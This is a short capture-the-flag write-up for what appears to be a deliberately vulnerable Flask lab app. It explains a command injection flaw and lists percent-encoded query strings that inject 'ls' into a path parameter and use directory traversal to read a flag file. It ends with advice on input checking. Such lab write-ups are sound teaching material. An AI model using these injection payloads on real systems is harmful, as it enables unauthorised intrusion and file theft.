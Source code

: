 ## Solution

#### Vulnerability

The website is vulnerable to commands injection, as no input checking has been implemented. It is possible to find the *flag.txt* file by injecting *ls* command and navigating over the directories, and later retrieve the contents of it, for example with *cat* command injection or simple directory traversal. Remember to use [Percent-encoding](https://en.wikipedia.org/wiki/Percent-encoding) in your query.

#### Correct queries

Correct query is present in the *correct_query* file.

Example command injection steps to get the location of the flag:

1. `IP:PORT/?path=` - Gets the current directory location
2. `IP:PORT/?path=%26ls%20/home/pi/Desktop/SecurityPi/vulnerable_flask/` - Lists what is inside the current directory
3. `IP:PORT/?path=%26ls%20/home/pi/Desktop/SecurityPi/vulnerable_flask/secrets` - Discovers the secrets
4. `IP:PORT/?path=secrets/flag.txt` - Gets the answer

## Conclusion

Remember to implement input checks in every type of application - always assume the user is malicious. If you are unsure how to do that, just use external tools to help you make safe and secure code. Or let others do it for you before you are experienced enough to do it yourself.
